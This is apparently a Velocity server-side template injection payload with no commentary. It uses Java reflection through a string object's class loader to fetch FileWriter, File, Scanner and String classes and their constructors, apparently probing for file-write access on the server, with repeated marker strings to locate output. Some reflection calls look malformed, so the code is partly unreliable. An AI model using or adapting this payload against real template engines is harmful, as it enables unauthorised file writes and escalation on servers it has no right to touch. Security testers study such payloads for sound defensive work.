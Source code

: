 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
$a
#set ($ab=$e.getClass().forName("java.io.File"))
$ab
#set($sc = $e.getClass().forName("java.util.Scanner"))
$sc
#set($str=$class.inspect("java.lang.String").type)
$str
#set($constructors = $sc.getDeclaredConstructors($e.getClass().forName("java.io.FileWriter")))
$constructors
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.FileWriter"), $str) )
$constructor
$monkey
